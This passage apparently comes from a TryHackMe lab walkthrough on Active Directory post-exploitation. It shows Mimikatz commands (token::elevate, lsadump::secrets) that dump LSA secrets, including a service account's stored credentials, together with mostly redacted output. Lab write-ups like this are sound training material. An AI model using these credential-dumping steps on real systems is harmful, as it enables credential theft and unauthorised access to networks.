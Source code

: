 If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user. Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use [Mimikatz](https://github.com/gentilkiwi/mimikatz/security) to dump the secrets:

```
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM


mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : redacted

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: redacted
    NTLM:redacted
    SHA1:redacted
old/text: redacted
    NTLM:redacted
    SHA1:redacted

Secret  : DefaultPassword
cur/text: redacted
old/text: redacted

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted

mimikatz #
```

